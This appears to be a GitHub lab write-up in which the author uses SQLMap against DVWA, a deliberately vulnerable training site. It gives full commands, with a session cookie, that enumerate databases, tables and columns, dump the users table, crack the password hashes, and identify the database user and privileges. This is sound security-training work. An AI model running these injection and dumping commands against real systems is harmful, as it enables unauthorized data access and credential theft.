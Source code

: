 # Hacking-a-SQL-database

<h1>Phase 6</h1>


**<p style="font-size: 15px;">Step 1: Use SQLMAP to Hack a Database.</p>**

To start, I logged into dvwa.structureality.com. This is necessary to access the DVWA database. 

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0e947fc3-fdfb-411d-94d9-fc5a8c4bb8d3)

I clicked on the SQL Injection tab and entered 1 for the User ID.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/518e491c-323a-46a3-aa3d-064096cf94cc)

My submission showed that the User ID of 1 is the admin. The submission aslo changed the URL to "http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Sumbit#". This URL will be utilized later in the attack.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/571ee018-082e-4ec6-950c-d46c22ddadf6)

To perform the attack I needed to ascertain the PHPSESSID. I right-clicked on the page, selected Inspect and went to the storage section. These actions brought forth the PHPSESSID which is displayed below.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/6ca88886-97c0-4483-a0de-d92e5196c681)

Once obtained, I opened a Terminal window and entered "sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -b". This command will determine the type of DBMS (database management system) running on the target utilizing SQLMap. The -u flag defines the URL in single quotes, --cookie is used to define the session cookie and the -b flag retrieves the DBMS banner. When prompted, I selected Y to skip testing for other DBMSes. 

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/94178e4f-61c9-45e5-a2f8-7e8035d4e460)

The previous command returned the below result which indicated that DBMS is "MySQL ≥ 5.6" and displays a banner of "8.0.23-0ubuntu0.20.04.1".

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/86db4444-3ff1-4d4e-ac40-bddba9bbdd5f)

Next, I utilized SQLMap to extract the database names from the target system by employing the following command, "sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --dbs". The --dbs parameter instructs SQLMap to retrieve the names of the databases. 

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/ec943912-4e45-49aa-add6-5046d2755a56)

The results show there are 6 available databes, dvwa, information_system, mitullidae, mysql, performance_schema, and sys.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/58bcf6dd-7fb7-4681-b404-15f0f518277b)

I then retrieved the names of the tables of the *dvwa* database by changing the previous command with the parameters "-D", to focus the tool on the named database, and "--tables" to extract the tables from the targeted database.  

"sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa --tables"

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a2c2528f-10a7-44e7-b62a-41ad2fe0210a)

The command revealed there are 2 tables in the dvwa database, *guestbook & users*.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/127762ab-16fc-44ca-bac9-d8196bfdbd8b)

I wanted to extract the names of the columns fromt he *users* table, so I updated the command with the following parameters: "-T" to focus on the *users* table and "--columns" to retrieve the columns of the database.

"sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --columns"

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/372092ec-e998-4701-b5c9-ec73ddd48791)

The results show there are eight columns within the *users* table: user
avatar
failed_login
first_name
last_login
last_name
password
user_id

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/e7b7d9da-1242-4681-92a9-051dc66cc9e5)

I then utilized the "--dump" parameter to retrieve the contents of the table. 

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --dump

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/b365aada-3774-42c7-8a49-52f422fd4d60)

I selected *y* to store the hashes to a temporary file and to crack the hashes. I used the default dictionary for this process which was selection 1.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/dfa4b8d8-16e3-438f-89ba-ee19279ff46f)

The below picture shows 5 entries in the users tables with the hasshed password and the hacked password displayed.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a4a0c3c0-175e-47b1-b2d8-c2e0b68189cf)

Next, I used SQLMap to discover the system's hostname supporting the DBMS with the command, "sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --hostname".

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/31510a64-d852-4663-bdc2-3578d678c9b8)

The command revealed that the hostname is *lamp10*.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/de705765-6ad0-4259-8c3e-9e2ecfb1b96f)

I used the following command to use SQLMap to determine the identity of the current database user, "sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-user".

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/8f3d546b-21ba-4ace-881b-5ee2ca9b6071)

The result indicated the current data user was root@localhost. This account is utilized by DVWA's scripts to interact with its underlying database.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/30eee76f-dd30-4f3e-90e5-d5e31233c74b)

I then used the "--current-db" parameter to extract the identity of the currently active database. 

"sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-db"

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/c7164227-f46a-4082-ab2f-e6a60bc058ce)

Below, you can see the current database is *dvwa*.

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0c7df860-8454-44d6-b801-0b203c16777f)

Next, I used the following command to identify the privileges, roles and whether the current user is the DBA "sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --privileges --roles --is-dba".

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/f1d7b932-0c0f-46a4-bee2-ba09b0d00bb8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/1f3eb4f5-0ccc-4bbf-88d2-2eb6f7768f72)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/76693b60-f298-4a2d-ac92-b6002325bcd5)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/d6adb983-0a42-447c-8abc-384a88ae8070)

Finally, I used SQLMap to perform a crawl of the target site to a depth of 3. This means that SQLMap will not only test the original URL you provided but also follow any links on that page to other pages on the same domain (level 1), then follow links on those pages to other pages (level 2), and finally follow links on level 2 pages to other pages (level 3).

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -crawl=3

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/33a8e2a0-63b5-4eb6-bf9c-757226a01fd7)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/61f89795-22df-4ca6-afb0-0d57bd62d122)



























